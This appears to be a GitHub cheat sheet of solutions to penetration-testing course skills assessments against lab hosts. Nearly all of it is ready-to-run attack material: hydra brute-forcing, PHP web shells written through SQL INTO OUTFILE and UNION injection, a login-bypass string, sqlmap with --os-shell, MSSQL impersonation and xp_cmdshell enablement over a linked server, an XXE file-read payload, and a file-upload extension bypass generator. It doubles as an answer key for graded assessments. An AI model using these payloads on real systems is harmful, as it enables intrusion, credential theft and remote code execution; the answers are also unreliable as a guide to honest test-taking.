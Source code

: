 https://github.com/missteek/cpts-quick-references/blob/main/assessments/Password%20Attacks%20Lab%20-%20Hard.md

---
### Attacking Common Services:
---
#### Attacking Common Services - Easy:
```
UserEnum:       smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t $ip
PW Bruteforce:  hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt $ip smtp
Login MySQL:    mysql -h $ip -u <user> -p <password>
SQL RCE:        SELECT "<?php if(isset($_GET['cmd'])){ echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; } ?>" INTO OUTFILE 'C:/xampp/htdocs/cmd.php';
RCE:            curl http://$ip/cmd.php?cmd=whoami
```
#### Attacking Common Services - Medium:
```
nmap scan:      nmap $ip -p- --open -o nmap.txt | grep '/tcp' | cut -d'/' -f1 | paste -sd, -
ftp anonymous:  ftp $ip 30021
download file:  get mynotes.txt
PW Bruteforce:  hydra -l simon -P mynotes.txt $ip ssh OR hydra -l simon -P mynotes.txt $ip pop3
Login:          ssh simon@$ip
```

#### Attacking Common Services - Hard:
```
-- 1. Get the names of all databases in the SQL Server instance
SELECT name FROM master.dbo.sysdatabases;
GO

-- 2. Switch to the 'TestingDB' database for further queries
USE TestingDB;
GO

-- 3. Get all tables from the 'TestAppDB' database
SELECT table_name FROM TestAppDB.INFORMATION_SCHEMA.TABLES;
GO

-- 4. Find distinct names of principals who have the 'IMPERSONATE' permission
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
GO

-- 5. Execute as the 'john' login and check the current user and sysadmin membership
EXECUTE AS LOGIN = 'john';
SELECT SYSTEM_USER;  -- Get the current user
SELECT IS_SRVROLEMEMBER('sysadmin');  -- Check if the user is a sysadmin
GO

-- 6. Get information about linked servers and remote status
SELECT srvname, isremote FROM sys.servers;
GO

-- 7. Enable 'show advanced options' on the linked server
EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
GO

-- 8. Apply the configuration changes (RECONFIGURE)
EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 9. Execute a query on the linked server to get server details and check sysadmin role
EXECUTE ('SELECT @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 10. Enable 'show advanced options' on the linked server using EXECUTE
EXECUTE ('EXEC sp_configure ''show advanced options'', 1;') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 11. Apply the configuration (RECONFIGURE) on the linked server using EXECUTE
EXECUTE ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 12. Enable 'xp_cmdshell' on the linked server
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1;') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 13. Execute a command on the linked server using 'xp_cmdshell' to interact with the file system
EXECUTE ('xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt > C:\Users\fiona\Desktop\xc.txt''') AT [LOCAL.TEST.LINKED.SRV];
GO
```
---
### Attacking Web Applications with Ffuf:
---
#### Skills Assessment - Web Fuzzing:
```
Subdomain Fuzzing:            ffuf -u http://academy.htb:54143 -H "Host:FUZZ.academy.htb:54143" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 423
Extension Fuzzing:            ffuf -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://faculty.academy.htb:54143/indexFUZZ
Page Fuzzing:                 ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt:FUZZ -u http://faculty.academy.htb:54143/FUZZ -recursion -recursion-depth 1 -e .php,.phps,.php7 -fs 287
Parameter Fuzzing (POST):     ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:49893/courses/linux-security.php7 -X POST -d "FUZZ=key" -H "Content-Type: application/x-www-form-urlencoded" -fs 774
Value Fuzzing (POST):         ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:49893/courses/linux-security.php7 -X POST -d "username=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fs 781
     
```

---
### SQL Injection Fundamentals:
---
#### Skills Assessment :

#### For the login:
``` admin' or '1'='1'-- - ```
#### After the login (copy the the request from the browser as cURL):
``` sqlmap 'http://94.237.62 <SNIP> .php' -H 'Cookie: PHPSESSID=avgi9hf5r3hj0kfuh4573o7rr6' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'search=sdsdsds' --data 'search=*' --os-shell --batch ```

#### Alternative Solution:
```
' union select "",'<?php system(pwd); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell1.php'-- -
' union select "",'<?php system("dir /"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell2.php'-- -
' UNION SELECT 1,LOAD_FILE("/flag_cae1dadcd174.txt"),3,4,5-- -
```


---
### File Upload:
---
#### Skills Assessment :





```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

